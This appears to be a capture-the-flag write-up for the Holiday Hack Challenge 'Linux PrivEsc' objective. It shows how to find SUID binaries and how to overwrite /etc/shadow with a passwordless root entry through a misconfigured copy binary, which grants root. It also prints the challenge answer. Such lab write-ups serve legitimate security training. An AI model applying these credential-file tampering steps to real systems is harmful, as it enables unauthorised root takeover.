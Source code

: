 ```yaml
---
icon: material/linux
---
```


# Linux PrivEsc

**Difficulty**: :fontawesome-solid-star::fontawesome-solid-star::fontawesome-solid-star::fontawesome-regular-star::fontawesome-regular-star:<br/>
**Direct link**: [Objective URL](https://hhc23-wetty.holidayhackchallenge.com)

## Objective

!!! question "Request"
    Rosemold is in Ostrich Saloon on the Island of Misfit Toys. Give her a hand with escalation for a tip about hidden islands.

??? quote "Rose Mold"
    What am I doing in this saloon? The better question is: what planet are you from?<br/>
    Yes, I’m a troll from the Planet Frost. I decided to stay on Earth after Holiday Hack 2021 and live among the elves because I made such dear friends here.

## Hints

??? tip "Linux Privilege Escalation Techniques"
    There's various ways to escalate privileges on a Linux system.https://payatu.com/blog/a-guide-to-linux-privilege-escalation/

??? tip "Linux Command Injection"
    Use the privileged binary to overwriting a file to escalate privileges could be a solution, but there's an easier method if you pass it a crafty argument..



## Solution

Upon obtaining console access to the terminal, we started exploring interesting files on filesystem

```sh
find / -perm -u+s 2>/dev/null
```

And we found binary **/usr/bin/simplecopy** . This binary can copy any file from the system even with root permission. So the plan was to take over root permissions.

Next we checked directory /etc/shadow for its structure. Create simple sh2 file with root account without password.

```sh
echo -e "root::19634:0:99999:7:::" > sh2
```

Next using simplecopy binary we modified /etc/shadow file and from now "su" did not require any password so we could freely use root account

```sh
 simplecopy sh2 /etc/shadow
 su

```

### Images

![Terminal output](../img/objectives/o7/terminal-privesc.png)


!!! success "Answer"
    "santa"

## Response

!!! quote "Rose Mold"
    Yup, I knew you knew. You just have that vibe.
